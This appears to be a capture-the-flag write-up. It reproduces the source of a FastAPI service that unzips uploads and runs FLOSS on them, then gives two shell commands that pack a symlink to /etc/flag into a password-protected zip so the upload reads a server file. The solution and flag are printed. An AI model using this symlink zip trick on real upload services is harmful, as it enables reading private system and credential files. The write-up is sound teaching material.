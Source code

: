 # 🎓Throw your malware here!
> FLOSS is the superior "strings", so I've decided to run it as a SAAS! Enough with the obfuscated code that the pigeon keeps throwing at me!

> In fact, I decided to handle all types of files, even non-PE files and password-protected zip files!

> Flag is located at `/etc/flag`

## About the Challenge
We have been given a source code called `app.py` (You can download the file [here](dist_throw-your-malware-here_0140c3bcedfeee2909f426086fbab6fa4c777229.zip)) and here is the content of the file

```python
from typing import Optional
import zipfile
import random
import shutil
import string
import subprocess
from pathlib import Path

import pefile
from fastapi import FastAPI, HTTPException, UploadFile
from fastapi.responses import JSONResponse


FILE_CACHE = Path("/app/cache")
FLOSS_PATH = Path("/usr/local/bin/floss")

app = FastAPI()


def get_random_string(length: int = 16) -> str:
    # choose from all lowercase letter
    letters = string.ascii_lowercase
    return "".join(random.choice(letters) for _ in range(length))


@app.on_event("startup")
def startup():
    # Ensure caches exist
    if not FILE_CACHE.is_dir():
        FILE_CACHE.mkdir()


def run_floss(target: Path) -> str:
    args = [str(target), "--json"]
    try:
        pefile.PE(name=str(target))
    except pefile.PEFormatError:
        args.extend(("--only", "static"))
    output = subprocess.check_output((FLOSS_PATH, *args))
    return output.decode()


@app.post("/floss")
def floss_endpoint(sample: UploadFile, password: Optional[str]) -> JSONResponse:
    random_path = get_random_string()
    while (target_path := FILE_CACHE / random_path).exists():
        random_path = get_random_string()
    with target_path.open("wb+") as f:
        shutil.copyfileobj(sample.file, f)
    is_zipfile = zipfile.is_zipfile(target_path)
    if is_zipfile:
        with zipfile.ZipFile(target_path) as f:
            # No zip bombs!
            file_size_sum = sum(data.file_size for data in f.filelist)
            compressed_size_sum = sum(data.compress_size for data in f.filelist)
            if (file_size_sum / compressed_size_sum > 10):
                raise HTTPException(413, "Zip Bomb Detected")

            zipobjects = f.infolist()
            if any(zipobject.file_size > 50000 for zipobject in zipobjects):
                raise HTTPException(418, "I'm a teapot!")
            files = f.namelist()
        args = ["unzip"]
        if password:
            args.extend(("-P", password))
        args.extend((str(target_path), "-d", f"{FILE_CACHE / random_path}-zip"))
        a = subprocess.run(args)
        if a.returncode != 0:
            raise HTTPException(422, "Invalid password!")
        targets = [FILE_CACHE / f"{random_path}-zip" / file for file in files]
    else:
        targets = [target_path]
    results = [run_floss(target) for target in targets]
    return JSONResponse(
        {target.name: result for target, result in zip(targets, results)}
        if is_zipfile
        else results[0]
    )
```

The program accepts a file upload via the /floss endpoint and analyzes the uploaded file using FLOSS. It first saves the uploaded file to a cache directory. If the uploaded file is a ZIP archive, it checks for zip bomb and teapot conditions to prevent malicious or large files from being processed.

If the file is a ZIP archive, it extracts its contents to a separate directory in the cache. Otherwise, it directly analyzes the uploaded file. For each file (or extracted file in the case of a ZIP archive), it runs the run_floss() function, which invokes FLOSS to perform the analysis. The output is returned as a JSON response.

## How to Solve?
To solve this chall, im using this [website](https://infosecwriteups.com/zippy-challenge-writeup-cyberhack-ctf-80eb1d422249) as a reference. We can read the content of `/etc/flag` by using `zipslip` vulnerability. Here is the command that I used

```
ln -s ../../../etc/flag awikwok.link
zip -P password --symlink awikwok.zip awikwok.link
```

And then upload to the website to obtain the flag

![flag](images/flag.png)

```
SEE{i_just_wanted_to_be_kind_and_run_a_floss_web_api_man}
```